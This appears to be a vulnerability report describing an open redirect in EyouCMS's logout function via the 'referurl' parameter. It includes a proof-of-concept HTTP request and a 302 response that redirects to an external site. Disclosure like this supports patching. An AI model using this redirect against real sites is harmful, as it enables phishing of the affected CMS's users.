 ##### Product: `EyouCMS`
##### Vilnerability param: `referurl`
##### Function: `logout`
##### Effected source code file: `{Source]\application\user\controller\Users.php`
##### Logout function accepts a user-controlled input that specifies a link to an external site, and uses that link in a Redirect. This simplifies phishing attacks.
![Image](https://user-images.githubusercontent.com/54875703/130326456-1f448474-3b12-4e5e-bb27-c981fb12486a.png)
##### PoC:
```
GET /index.php?m=user&c=Users&a=logout&referurl=https://google.com HTTP/1.1
Host: 172.16.0.12:3333
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PortalOpenEMR=BKEx0ZLJ9X41gReq-UHNt-aC0jHNPiQLUOf7FXckqCAumudg; OpenEMR=UwreHaTw9iqwJWXqAY3%2CWYkZgvA3wdVmymdC5QqiVC1H2scM; loader=loaded; admin_lang=cn; home_lang=cn; workspaceParam=index%7CArchives; referurl=%2Findex.php%3Fm%3Duser%26c%3DUsers%26a%3Dcentre; ENV_GOBACK_URL=%2Flogin.php%3Fm%3Dadmin%26c%3DArchives%26a%3Dindex_archives%26typeid%3D24%26lang%3Dcn; ENV_LIST_URL=%2Flogin.php%3Fm%3Dadmin%26c%3DArchives%26a%3Dindex_archives%26lang%3Dcn; ENV_IS_UPHTML=0; PHPSESSID=g0e80krlrkdep97u55tu3d2tj2
Upgrade-Insecure-Requests: 1
```
```
HTTP/1.1 302 Found
Date: Sat, 21 Aug 2021 15:17:05 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.3.29
X-Powered-By: PHP/7.3.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-cache,must-revalidate
Pragma: no-cache
Set-Cookie: users_id=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Set-Cookie: users_id=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Location: https://google.com
Content-Length: 0
Connection: close
Content-Type: text/html; charset=utf-8
```
